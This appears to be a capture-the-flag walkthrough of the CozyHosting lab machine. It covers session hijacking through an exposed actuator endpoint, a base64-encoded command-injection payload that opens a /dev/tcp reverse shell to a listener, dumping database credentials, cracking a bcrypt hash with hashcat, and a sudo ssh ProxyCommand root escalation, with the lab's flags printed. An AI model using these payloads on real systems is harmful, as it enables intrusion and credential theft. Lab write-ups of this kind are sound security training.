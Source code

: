 ![[CozyHosting 1.png]]
# Initial Reconnaissance
1. `curl -I 10.10.11.230` to find possible location / DNS name
2. get a result of `cozyhosting.htb`, add to `/etc/hosts`
3. login page doesn't have any known back end, tried another way
4. tried to login with any credentials `admin:admin`, wrong credentials
5. check for cookies, and there's a `JSESSIONID` cookie (possible session hijacking), tried to find any open directory
6. `dirsearch -u cozyhosting.htb` (have tried other with gobuster and bunch of wordlists, this seems to works better)
7. found an `/actuator/` directory containing sessions. and im able to hijack a session from this

# User Escalation
1. earlier i found an `/actuator/` directory with `dirsearch`, i found a path in `/actuator/sessions`
2. visiting the directory actually gives a `JSESSIONID` with the username `kanderson`
3. change the cookie, enter `kanderson` as the username and random password value
4. pressing the login button actually bypasses the login pages
5. there's nothing more interact-able except using this `connection settings`, try to include something random `127.0.0.1:test` while capturing the requests in burpsuite
6. returns out some `host key error`, trying another payloads
7. entering `;` or `'` or `"` and any other symbols used in linux such as wildcards resulting in the request shows an error of `ssh` command, it seems like this is a possible command injection and actually could run a reverse shell
8. trying a bunch of payload and found one working `;echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash;`
9. encode the payload in base64 `echo "sh -i >& /dev/tcp/your-ip/port 0>&1" | base64 -w 0`
10. setup a listener in terminal with `nc -lvnp port`, make sure the port is the same as which is on the payload.
11. after i craft the payload, send it to the username section, and check for connection on the listener
12. after i got a connection, tried to `ls` and there's a file named `cloudhosting-0.0.1.jar`, should try to download it
13. to download the file from the target machine, serves a http server on the target machine with python with `python3 -m http.server` and it will serves http fileserver on port 8000
14. to download the file on the local machine use `wget 10.10.11.230:8000/cloudhosting-0.0.1.jar`
15. after the download complete, open the jar with `jd-gui cloudhosting-0.0.1.jar`
16. after i carefully analyzing the file, i notice there's an exposed credentials in `BOOT-INF > classes > application.properties`, the postgres sql credential is hardcoded as `postgres:Vg&nvzAQ7XxR` and a database name of `cozyhosting`
17. after gaining the database credentials, tried to open the database in the target connection, first i open up the database `psql -U postgres -h localhost -W`, enter the password from extracted credentials
18. after i get in, i list the table available with `\l` and it shows some table and one i'm looking for is `cozyhosting`, so i connect with `\c cozyhosting`, then there's a prompt saying i'm successfully connected to that database and list the tables with `\dt` there's shown 2 tables `hosts` and `users` i'm interested in the `users` table, so i get the content with `select * from users;` and it return  2 rows with 3 column a name, password hash, and role. one being Kanderson with the role user and the other is with the role admin, trying to crack the hash
19. to crack the hash first i need to identify the hash, so i move the hash value into a file named `admin.hash` and then run `hashid admin.hash` it return a possible of 3 hash `blowfish`, `woltlab`, `bcrypt`, i will use `hashcat` to crack the hash with `rockyou.txt` wordlists
20. knowing the hash i want to specify the mode in hashcat, so i search the mode from here `https://gist.github.com/dwallraff/6a50b5d2649afeb1803757560c176401`, there's 2 result `3200` and `18600` but 3200 looks exactly the same as the hash i found, so i run the command `hashcat -m 3200 admin.hash rockyou.txt`, after some while it will return a password of `manchesterunited`, next i want to find it's username
21. to find the username, from the reverse connection, do `ls /home` and i get a directory for a user named `josh` and with that i have a complete credentials for the ssh login `josh:manchesterunited`
22. connect to the ssh as josh `ssh josh@10.10.11.230`, enter `yes` if there's a prompt and input the password
23. once inside `ls` and there's the user flag, `cat user.txt`
24. flag: `7072315530398ffe299eb27512fed5b2`

# Further Reconnaissance
1. `sudo -l` to check any available sudo command, turns out i could run ssh as sudo

# Privilege Escalation
1. i know that i could run ssh as sudo, now to find any available exploits with this payload `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`, read more from here `https://gtfobins.github.io/gtfobins/`
2. after submitting the payload, i notice that the ssh connection turns into a `#` which mean i have successfully done privilege escalation, now to find the flag
3. `cat /root/root/txt`
4. flag: `a324942ccd71927d1e4fc8c564c57995`

![[CozyHosting-Pwned.png]]
   